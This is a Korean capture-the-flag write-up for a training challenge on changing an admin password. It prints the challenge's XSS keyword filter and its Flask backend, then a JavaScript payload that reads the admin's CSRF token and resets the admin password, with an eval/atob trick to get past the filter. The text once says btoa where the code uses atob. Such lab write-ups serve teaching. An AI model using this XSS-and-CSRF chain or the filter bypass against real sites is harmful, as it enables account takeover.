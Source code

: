 # csrf2 - change admin password2
- 난이도 : 중
- site : 금융보안원
## 풀이
```py

def xsscheck(content):
    content = content.lower()
    vulns = ["javascript", "frame", "object", "on", "data", "base","\\u", "embed", "&#", "alert","fetch","XMLHttpRequest","eval","constructor"]
    vulns += list("'\"")
    for char in vulns:
        if char in content:
            return True

    return False
```
백엔드 로직 확인
```py
@app.route("/changepw", methods=["GET"])
def changepw():
    if "userid" not in flask.request.args or "userpw" not in flask.request.args:
        flask.session["csrf_token"] = binascii.hexlify(os.urandom(16)).decode()
        return flask.render_template("changepw.html", msg="false", csrf_token=flask.session["csrf_token"])
    else:
        if "csrf_token" not in flask.request.args:
            return flask.render_template("changepw.html", msg="please input csrf token")

        
        if flask.request.args["csrf_token"] != flask.session["csrf_token"]:
            return flask.render_template("changepw.html", msg="csrf token not match!")

        userid = flask.request.args["userid"]        
        userpw = flask.request.args["userpw"]
                
        if userid == "admin":
            if flask.request.remote_addr != socket.gethostbyname("arang_client"):
                return flask.render_template("changepw.html", msg="admin password is only changed at internal network")
        
        if userid in ids:
            ids[userid] = userpw
            return flask.redirect(flask.url_for("login"))
        else:
            return flask.render_template("changepw.html", msg="user doesn't exist")

```
첫 접속 시 /changepw에 해당 계정에 대한 csrf_token을 hidden으로 생성, 그 후 비밀번호 변경 시 파라미터에 해당 csrf_token을 넣어 줘야함.

그럼 관리자가 특정 사이트를 접속 했을 때 관리자의 csfr_token을 읽고 그대로 파리미터에 넣으면 관리자 비밀번호를 임의의 비밀번호로 바꿀 수 있음. 

```js
fetch(`/changepw`)
  .then(response => response.text())
  .then(html => {
    // HTML에서 CSRF 토큰 파싱
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, `text/html`);
    const csrfToken = doc.querySelector(`input[name="csrf_token"]`).value;

    // CSRF 토큰을 포함한 새로운 GET 요청
    const userid = `admin`;
    const userpw = `11`;
    const url = `/changepw?userid=${userid}&userpw=${userpw}&csrf_token=${csrfToken}`;
      console.log(url)
    return fetch(url);
  })
```
이러한 payload를 짜서 XSS에 담으면 관리자가 읽고 자기 csrf 토큰을 인자에 넣어 비밀번호를 11로 바꿀 것이다.

그럼 이 payload를 어떻게 우회해서 심을 것인가
```html
<script>
    self[`ev`+`al`](atob(`base64로인코딩된payload`));
</script>
```
이렇게 하게 되면 base64로 인코딩된 payload가 btoa에 의해 다시 정상 자바스크립트로 풀리게 되고 그걸 eval이 실행해 해당 payload가 실행되게 된다.
